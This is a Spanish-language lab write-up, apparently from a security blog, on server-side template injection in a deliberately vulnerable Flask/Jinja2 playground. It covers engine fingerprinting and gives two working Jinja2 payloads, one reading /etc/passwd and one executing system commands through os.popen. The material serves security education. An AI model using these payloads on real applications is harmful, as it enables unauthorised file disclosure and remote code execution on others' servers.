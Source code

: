 ```yaml
---
title: "[Lab] Server-Side Template Injection (SSTI)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, flask]
---
```





# Server-Side Template Injection (SSTI)
    

### Más referencias:

- Links
    
    Infayer: Post Sobre SSTI - (”[https://infayer.com/archivos/803](https://infayer.com/archivos/803)”)
    
    HackTricks - (”[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)”)
    
    PayloadsAllTheThings - (”[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)”)
    
    Hackmetrix - (”[https://blog.hackmetrix.com/ssrf-server-side-request-forgery/](https://blog.hackmetrix.com/ssrf-server-side-request-forgery/)”)
    

![Untitled](../assets/OWASP-TOP-10/Server-Side Template Injection (SSTI)/Untitled.png)

## ¿Qué es Flask?

Flask es un framework escrito en Python que permite crear aplicaciones de forma sencilla y rápida. Es decir, un acelerador de tareas que funciona con pocas líneas de código y que ejecuta las aplicaciones rápidamente.

## Instalación

```bash
docker run -p 8089:8089 -d filipkarc/ssti-flask-hacking-playground
```

## Introducción

La web vulnerable es una web que carga plantillas para representar contenido de forma dinámica de forma que cualquier cosa que se introduzca al parámetro “user”, se verá reflejado en la pantalla:

![Untitled](../assets/OWASP-TOP-10/Server-Side Template Injection (SSTI)/Untitled 1.png)

Además, al utilizar la herramienta **whatweb**, se puede ver que la web por detrás utiliza python

![Untitled](../assets/OWASP-TOP-10/Server-Side Template Injection (SSTI)/Untitled 2.png)

Si se ve que el input que ingresa el usuario se ve reflejado en la página web y además de ello, se descubre que por detrás se está empleando Python, se podría llegar a intentar un SSTI

Como parte de la metodología de actuación en estos casos, se va a tomar en cuenta el siguiente diagrama, que permitirá identificar el motor de plantilla empleado por esta aplicación web.

![Untitled](../assets/OWASP-TOP-10/Server-Side Template Injection (SSTI)/Untitled 3.png)

Por tanto, se trasladará estas comprobaciones al objetivo para identificar el motor de plantilla.

![Untitled](../assets/OWASP-TOP-10/Server-Side Template Injection (SSTI)/Untitled 4.png)

![Untitled](../assets/OWASP-TOP-10/Server-Side Template Injection (SSTI)/Untitled 5.png)

Después de esta breve comprobación se tiene resuelta la primera necesidad: conocer el motor de plantilla empleado por la aplicación web, que en este caso se trata de **Jinja2**.

## Explotación

Existen muchos payloads para probar y en este caso se acudirá al repositorio de PayloadsAllTheThings para probar algunos payloads interesantes:

### Leer archivos del sistema:

```bash
{% raw %}
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
{% endraw %}
```

![Untitled](../assets/OWASP-TOP-10/Server-Side Template Injection (SSTI)/Untitled 6.png)

### Ejecución de comandos:

```bash
{% raw %}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
{% endraw %}
```

![Untitled](../assets/OWASP-TOP-10/Server-Side Template Injection (SSTI)/Untitled 7.png)

